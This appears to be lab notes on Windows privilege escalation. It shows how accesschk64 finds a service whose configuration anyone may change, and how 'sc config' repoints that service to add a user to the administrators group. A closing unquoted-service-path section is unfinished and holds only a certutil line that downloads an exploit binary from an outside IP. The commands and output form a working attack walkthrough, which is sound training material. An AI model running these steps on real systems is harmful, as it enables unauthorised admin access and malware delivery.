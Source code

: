 
## Binary Paths

In this exploit we are searching fro services with modifiable configurations that we also have permission to restart. By changing the path of the binary executable to a command we want to execute, we can gain privilege access to the machine.

To find services with modifiable configurations, we can use the `accesschk64` tool with the following flags.

- `-u`: Suppress errors
- `-w`: Only show objects with write access
- `-c`: Display the service name
- `-v`: Verbose

Since we want services with write access to any user we also use the `Everyone *` argument.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>accesschk64.exe -uwcv Everyone *

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

RW daclsvc
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL


C:\Users\user\Desktop\Tools\Accesschk>accesschk64.exe -wuvc daclsvc

Accesschk v6.10 - Reports effective permissions for securable objects
Copyright (C) 2006-2016 Mark Russinovich
Sysinternals - www.sysinternals.com

daclsvc
  Medium Mandatory Level (Default) [No-Write-Up]
  RW NT AUTHORITY\SYSTEM
        SERVICE_ALL_ACCESS
  RW BUILTIN\Administrators
        SERVICE_ALL_ACCESS
  RW Everyone
        SERVICE_QUERY_STATUS
        SERVICE_QUERY_CONFIG
        SERVICE_CHANGE_CONFIG
        SERVICE_INTERROGATE
        SERVICE_ENUMERATE_DEPENDENTS
        SERVICE_START
        SERVICE_STOP
        READ_CONTROL
```

We find that there is a service named `daclsvc` with  `SERVICE_CHANGE_CONFIG` enabled. If we query just the service, we get the following information.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : "C:\Program Files\DACL Service\daclservice.exe"
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

There is a `BINARY_PATH_NAME` value and since we can modify the config, we can change this to any command we want.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>sc config daclsvc binpath= "net localgroup administrators user /add"
[SC] ChangeServiceConfig SUCCESS

C:\Users\user\Desktop\Tools\Accesschk>sc qc daclsvc
[SC] QueryServiceConfig SUCCESS

SERVICE_NAME: daclsvc
        TYPE               : 10  WIN32_OWN_PROCESS
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : net localgroup administrators user /add
        LOAD_ORDER_GROUP   :
        TAG                : 0
        DISPLAY_NAME       : DACL Service
        DEPENDENCIES       :
        SERVICE_START_NAME : LocalSystem
```

Now we simply need to start the service and our user `user` will be added to the administrator group. Also note that the service will fail to start since we have changed the bin path.

```PowerShell
C:\Users\user\Desktop\Tools\Accesschk>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------
Administrator
TCM
The command completed successfully.

C:\Users\user\Desktop\Tools\Accesschk>sc start daclsvc
[SC] StartService FAILED 1053:

The service did not respond to the start or control request in a timely fashion.

C:\Users\user\Desktop\Tools\Accesschk>net localgroup administrators
Alias name     administrators
Comment        Administrators have complete and unrestricted access to the computer/domain

Members
-------------------------------------------------------------------
Administrator
TCM
user
The command completed successfully.
```


## Unquoted Service Paths

certutil -urlcache -f http://10.10.14.2/ms15-051x64.exe ms.exe